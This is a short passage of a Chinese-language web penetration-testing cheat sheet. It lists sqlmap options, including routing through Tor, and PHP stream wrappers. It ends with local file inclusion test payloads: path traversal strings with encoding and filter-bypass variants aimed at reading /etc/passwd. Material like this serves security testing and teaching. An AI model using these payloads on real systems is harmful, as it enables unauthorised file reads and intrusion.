             - default: 1
        - `--technique`
            - default: `BEUSTQ`
        - Cookie: `--cookie="abc=55667788"`
        - Tor: `--tor --check-tor --tor-type=SOCKS5 --tor-port=9050`


#php伪协议
```
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
https://
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
php://filter
php://memory
php://temp
php://fd
php://output
php://input

zlib:// — 压缩流
zip://
bzip2://
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```


# LFI

## Testing Payload

### Linux / Unix

- Common Payload
    - `./index.php`
    - `././index.php`
    - `.//index.php`
    - `../../../../../../etc/passwd`
    - `../../../../../../etc/passwd%00`
        - 僅在 5.3.0 以下可用
        - magic_quotes_gpc 需為OFF
    - `....//....//....//....//etc/passwd`
    - `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`
    - `%252e/%252e/etc/passwd`
    - `ＮＮ/ＮＮ/ＮＮ/etc/passwd`
    - `.+./.+./.+./.+./.+./.+./.+./.+./.+./.+./etc/passwd`
    - `static\..\..\..\..\..\..\..\..\etc\passwd`
    